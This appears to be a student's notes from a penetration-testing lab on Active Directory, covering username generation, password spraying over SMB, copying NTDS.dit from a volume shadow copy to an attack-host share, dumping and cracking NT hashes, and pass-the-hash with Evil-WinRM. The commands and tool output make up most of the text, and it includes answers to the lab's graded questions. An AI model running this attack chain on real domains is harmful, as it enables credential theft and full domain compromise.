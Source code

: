 
When a Windows system joins a domain, it will send all authentication requests to the DC before allowing a user to log on. SAM authentication is still possible by specifying the hostname followed by the username: `WS01/Username`

### CrackMapExec AD Dictionary Attacks

Use this [tool](https://github.com/urbanadventurer/username-anarchy) to generate potential usernames against a list of known users

###### Username Anarchy Example Usage
```go
./username-anarchy -i /home/ltnbob/names.txt 
```

###### Launching CrackMapExec

Using the name(s) found we then use a wordlist of known passwords to attack SMB

```go
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

If authentication is successful, we will attempt to capture the NTDS.dit file from the DC

### Capturing NTDS.dit

>[! Note]  
>NT Directory Services . directory information tree
> Directory service used to find and organize network resources.
> Stored at the below location:
>>	%systemroot%/ntds
> It is the primary database file associated with AD and contains all domain usernames, password hashes, etc.

#### Connecting to a Domain Controller via Evil-WinRM

> [!hint] Connect with the bwilliamson credentials
```go
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```


Once on the box check for privileges such as local admin rights etc. This is important because to copy the NTDS.dit file, you will need local admin or Domain Admin rights:
```go
net localgroup
```

From the user output, this user has domain admin and admin rights. 

#### Creating a shadow copy of C:

>[! hint]
> - Use vssadmin to create a volume shadow copy of the C: drive
> - NTDS is stored on the C: drive by default, but destination may be different

```go
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```


#### Copying NTDS.dit from the VSS

Copy the NTDS.dit file from the shadow copy of C: to another location on the drive:
```go
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

>[! hint ] Create Share on Attack Host
> To move the NTDS.dit file, use the [[Attacking SAM#Syntax for smbserver.py]] technique

#### Transferring NTDS.dit to Attack Host

```go
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### CrackMapExec One-liner

The below will execute all steps from above:
```go
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Cracking Hashes

Create a file containing all the hashes to crack or do it individually

```go
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

### PtH via Evil-WinRM

We could have  PtH with evil-winrm
```go
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```


## Questions

1) What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts? (Format: ****.*** )
```go
NTDS.dit
```

2) Submit the NT hash associated with the Administrator user from the example output in the section reading.
```go
64f12cddaa88057e06a81b54e73b949b
```

3) On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)
```go
jmarston:P@ssword!
```

Create Username list
```go
John Marston
Carol Johnson
Jennifer Stapleton
```

Run this list against username-anarchy:
```go
username-anarchy -i usernames.txt
```

Get the username:
>[! hint] 
>Remember, firstinitiallastname is a common username!

###### Credentials
```
jmarston
```

```
P@ssword!
```

Use crackmapexec to brute force the username against a list of passwords
```go
crackmapexec smb 10.129.202.85 -u jmarston -p /usr/share/wordlists/fasttrack.txt
```

4) Capture the NTDS.dit file and dump the hashes. Use the techniques taught in this section to crack Jennifer Stapleton's password. Submit her clear-text password as the answer. (Format: Case-Sensitive)

RDP into the windows machine using the credentials found in the previous question

>[! important] Had to reset the box in order for evil-winrm to establish a connection, hence the IP change

```go
evil-winrm -i 10.129.253.12  -u jmarston -p 'P@ssword!'
```

>[! Error] For some reason evil-winrm can't establish the connection

```go
crackmapexec smb 10.129.253.12 -u jmarston -p 'P@ssword!' --ntds
```

Results below:
```go
SMB         10.129.253.12   445    ILF-DC01         [*] Windows 10 / Server 2019 Build 17763 x64 (name:ILF-DC01) (domain:ILF.local) (signing:True) (SMBv1:False)
SMB         10.129.253.12   445    ILF-DC01         [+] ILF.local\jmarston:P@ssword! (Pwn3d!)
SMB         10.129.253.12   445    ILF-DC01         [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.253.12   445    ILF-DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
SMB         10.129.253.12   445    ILF-DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.253.12   445    ILF-DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cfa046b90861561034285ea9c3b4af2f:::
SMB         10.129.253.12   445    ILF-DC01         ILF.local\jmarston:1103:aad3b435b51404eeaad3b435b51404ee:2b391dfc6690cc38547d74b8bd8a5b49:::
SMB         10.129.253.12   445    ILF-DC01         ILF.local\cjohnson:1104:aad3b435b51404eeaad3b435b51404ee:5fd4475a10d66f33b05e7c2f72712f93:::
SMB         10.129.253.12   445    ILF-DC01         ILF.local\jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::
SMB         10.129.253.12   445    ILF-DC01         ILF.local\gwaffle:1109:aad3b435b51404eeaad3b435b51404ee:07a0bf5de73a24cb8ca079c1dcd24c13:::
SMB         10.129.253.12   445    ILF-DC01         ILF-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:1974751cfe975f2d7a384bee499f25b0:::
SMB         10.129.253.12   445    ILF-DC01         LAPTOP01$:1111:aad3b435b51404eeaad3b435b51404ee:be2abbcd5d72030f26740fb531f1d7c4:::
SMB         10.129.253.12   445    ILF-DC01         [+] Dumped 9 NTDS hashes to /home/dan/.cme/logs/ILF-DC01_10.129.253.12_2025-05-09_204713.ntds of which 7 were added to the database
```

The NT has for jstapleton
```go
92fd67fd2f49d0e83744aa82363f021b
```

Crack the hash via hashcat

```go
hashcat -m 1000 92fd67fd2f49d0e83744aa82363f021b /usr/share/wordlists/rockyou.txt --show
```

Cracked Password:
```go
Winter2008
```

